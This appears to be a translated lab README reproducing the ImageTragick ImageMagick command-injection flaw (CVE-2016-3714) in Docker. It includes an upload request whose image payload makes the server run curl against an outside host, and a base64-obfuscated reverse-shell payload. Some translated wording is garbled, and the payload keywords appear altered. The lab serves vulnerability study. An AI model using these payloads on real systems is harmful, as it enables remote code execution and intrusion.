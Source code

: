# Imagetragick Command Execution Vulnerability (CVE-2016–3714)

See https://imagetragick.com/ and https://www.leavesongs.com/PENETRATION/CVE-2016-3714-ImageMagick.html for details, no longer describing the principle.

## Test Methods

POC for some tests: https://github.com/ImageTragick/PoCs

Compile and start the test environment:

```
Docker-compose build
Docker-compose up -d
```

There are three files visible at http://your-ip/`:

```bash
├── demo.php # Use the vul.jpg+identify command to test
├── upload.php # Support users to upload and upload uploaded files to PHP's imagick extension to trigger the vulnerability
└── vul.jpg # A simple POC
```

First visit `http://your-ip/demo.php`, the command is not echoed, but in the docker container, the `/tmp/success` file has been successfully obtained:

![](1.png)

Then visit the `http://your-ip/demo.php` test and upload the POC file. The data package is as follows (**Note, I changed a POC**):

```
POST /upload.php HTTP/1.1
Host: your-ip
Content-Length: 321
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/57.0.2987.133 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarydGYwkOC91nnON1ws
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN, zh; q=0.8, en; q=0.6
Connection: close

------WebKitFormBoundarydGYwkOC91nnON1ws
Content-Disposition: form-data; name="file_upload"; filename="vul.gif"
Content-Type: image/jpeg

Push graphic-context
Viewbox 0 0 640 480
Fill 'url(https://127.0.0.0/oops.jpg"|curl "www.leavesongs.com:8889)'
Pop graphic-context
------WebKitFormBoundarydGYwkOC91nnON1ws--

```

It can be seen that `www.leavesongs.com:8889` has received the http request, indicating that the curl command is executed successfully:

![](2.png)

Rebound shell POC:

```
Push graphic-context
Viewbox 0 0 640 480
Fill 'url(https://127.0.0.0/oops.jpg?`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzQ1LjMyLjQzLjQ5Lzg4ODkgMD4mMQ== | base64 -d | bash`"||id " )'
Pop graphic-context
```

![](3.png)
